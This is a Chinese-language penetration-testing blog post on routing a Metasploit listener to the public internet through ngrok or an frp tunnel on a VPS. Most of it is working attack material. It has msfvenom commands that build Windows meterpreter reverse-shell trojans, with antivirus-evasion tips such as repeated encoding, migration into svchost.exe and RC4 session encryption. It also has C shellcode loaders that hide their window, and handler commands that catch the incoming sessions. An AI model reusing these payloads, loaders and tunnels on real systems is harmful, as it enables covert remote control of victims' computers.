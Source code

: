 ```yaml
---

title: MSF映射到公网的常见方法
top: true
cover: true
toc: true
mathjax: true
date: 2020-10-18 21:32:59
password: xxoo
summary:
tags: MSF
categories: MSF
---
```


---

### 0x01、前言

在渗透测试的环节中，MSF可以说是老生常谈的必会工具之一，有的时候内网的MSF并不能满足我们的使用需求，此时我们需要借助一些方法来进行端口转发，这里简单的介绍下如何将内网中的MSF转发到公网。



### 0x02、常见的两种转发方式

#### 方法①：使用Ngrok内网映射

首先我们需要有一个Ngrok官网的账户，官网地址：https://ngrok.com/，注册好后，首先下载一个Ngrok软件，下载地址：https://ngrok.com/download，下载完成后，将软件复制到kali，解压后执行下图中的命令（ngrok官网会分配你个key）

![ngrok](MSF映射到公网的常见方法/ngrok.png)

![ngrok-kali](MSF映射到公网的常见方法/ngrok-kali.png)

接下来就很简单了，如果想将本地的http服务转发到公网，那么可以执行下列命令，然后会将http服务转发到公网的ngrok域名上

```
./ngrok http 80
```

![ngrok1](MSF映射到公网的常见方法/ngrok1.png)

![http](MSF映射到公网的常见方法/http.png)



ok，试完了http，我们来将tcp转发

```
./ngrok tcp 8888
```

![tcp](MSF映射到公网的常见方法/tcp.png)



 接下来，我们使用msf生成一个木马测试下

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 15 -f exe -o payload.exe
```

这里简单说下木马的参数：

- -p	 选择指定payload

- –e    选择制定编码器（不同编码器免杀效果也有不同，部分编码器应对火绒等杀软效果显著）

-  -i     编码次数

- -b     去处多余/坏字符，lhost是你申请的ngrok服务器地址 lport是自定义的远程端口

- -f 	 生成指定格式

- -a     选择架构平台，包括x86 | x64 | x86_64

- --platform          选择系统类型

  

当然也可以生成c的shellcode

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 15 -f c 
```

![shellcode](MSF映射到公网的常见方法/shellcode.png)



使用VC++6.0对下面的代码进行编译

```
#include <stdio.h>

#pragmacomment( linker, “/subsystem:”windows” /entry:”mainCRTStartup”")//运行时不显示窗口

unsignedchar buf[] =

“buf数组”;//将复制的数组粘贴到此处

main()

{
((void(*)(void))&buf)();

}
```



回归正题，使用msf监听模块监听

```
use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost 127.0.0.1

set lport 8888

exploit
```



meterpreter获取会话

![msf](MSF映射到公网的常见方法/msf.png)





方法②：使用frp+vps内网映射

首先需要去gihub下载frp :https://github.com/fatedier/frp/releases 这里我下载的linux 64的版本（因为服务器是linux），下载后分别放到本地kali和服务器上，解压后，然后分别去配置：



服务端配置frps.ini文件：

```
bind_addr = 0.0.0.0			 //填0.0.0.0即可意为本机ip
bind_port = 6531			//frp连接端口
dashboard_addr = 0.0.0.0     //填0.0.0.0即可意为本机ip
dashboard_port = 7500		//网页访问端口
dashboard_user = admin 		//用户名
dashboard_pwd = crlf 		//密码
token = crlf			   //frp连接口令
```

配置完成后，启动服务端

```
方法一：./frps - c frps.ini		//前台启动，可以看到详细的监听xinxi
方法二：nohup ./frps -c frps.ini > log.txt &		//后台启动
```

![frp](MSF映射到公网的常见方法/frp.png)

启动成功后可以通过网页端访问来查看

![http_s](MSF映射到公网的常见方法/http_s.png)





接下来配置客户端kali的frpc.ini

```
[common]
server_addr = 66.23.x.x      //vps的ip
server_port = 6531     		//连接frp的端口
token = crlf      			//连接frp口令
[msf]
type = tcp     			   //tcp协议
local_ip = 127.0.0.1       //填127.0.0.1即可
local_port = 6759         //转发到vps的点端口
remote_port = 6000        //访问端口
```



运行 ./frpc  -c frpc.ini

![frp_c](MSF映射到公网的常见方法/frp_c.png)

ok，接下来使用上面的msfvenom 生成测试木马

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 15 -f exe -o payload.exe
```



也可以使用shellcode

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows LHOST=远程服务端ip 
LPORT=远程服务端端口 -e x86/shikata_ga_nai -i 15 -b 'x00' PrependMigrate=true PrependMigrateProc=svchost.exe -f c > shellcode.c
```

- PrependMigrate=true、PrependMigrateProc=svchost.exe		使木马程序会迁移到svchost.exe进程

- 也可以使用windows/meterpreter/reverse_tcp_rc4这个payload，进行会话加密，增加免杀能力



使用vc++6.0创建32位的项目并编译

```
#include<stdio.h>
#include<windows.h>
#pragma comment(linker,"/subsystem:"windows" /entry:"mainCRTStartup"") //去除窗口
unsigned char shellcode[]=
"这里放生成的shellcode"
void main()
{
 LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
 memcpy(Memory, shellcode, sizeof(shellcode));
 ((void(*)())Memory)();
}
```



最后启动msf，等待上线

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 127.0.0.1  
set lport 6759     // 本机转发端口
```

![xx](MSF映射到公网的常见方法/xx.png)



### 0x03、结语：

写的很乱，用做笔记，希望能帮到有缘人吧，然后如有错误，欢迎斧正！



---

